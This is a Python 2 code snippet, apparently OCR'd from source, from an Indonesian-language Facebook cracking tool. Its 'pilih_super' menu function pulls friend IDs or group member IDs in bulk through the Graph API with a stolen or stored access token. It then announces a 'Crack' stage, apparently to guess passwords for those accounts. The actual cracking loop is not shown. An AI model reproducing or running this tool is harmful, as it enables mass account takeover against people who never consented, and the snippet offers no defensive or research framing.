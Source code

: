 
def pilih_super():
    peak = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')
    if peak == '':
        print '\x1b[1;91m[!] Jangan kosong'
        pilih_super()
    else:
        if peak == '1':
            os.system('reset')
            print logo
            print 40 * '\x1b[1;97m\xe2\x95\x90'
            jalan('\x1b[1;91m[+] \x1b[1;92mMengambil id teman \x1b[1;97m...')
            r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
            z = json.loads(r.text)
            for s in z['data']:
                id.append(s['id'])

        else:
            if peak == '2':
                os.system('reset')
                print logo
                print 40 * '\x1b[1;97m\xe2\x95\x90'
                idg = raw_input('\x1b[1;91m[+] \x1b[1;92mID Grup   \x1b[1;91m:\x1b[1;97m ')
                try:
                    r = requests.get('https://graph.facebook.com/group/?id=' + idg + '&access_token=' + toket)
                    asw = json.loads(r.text)
                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama grup \x1b[1;91m:\x1b[1;97m ' + asw['name']
                except KeyError:
                    print '\x1b[1;91m[!] Grup tidak ditemukan'
                    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                    super()

                re = requests.get('https://graph.facebook.com/' + idg + '/members?fields=name,id&limit=999999999&access_token=' + toket)
                s = json.loads(re.text)
                for i in s['data']:
                    id.append(i['id'])

            else:
                if peak == '0':
                    menu_hack()
                else:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + peak + ' \x1b[1;91mTidak ada'
                    pilih_super()
    print '\x1b[1;91m[+] \x1b[1;92mJumlah ID \x1b[1;91m: \x1b[1;97m' + str(len(id))
    jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
    titik = ['.   ', '..  ', '... ']
    for o in titik:
        print '\r\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;97m' + o,
        sys.stdout.flush()
        time.sleep(1)
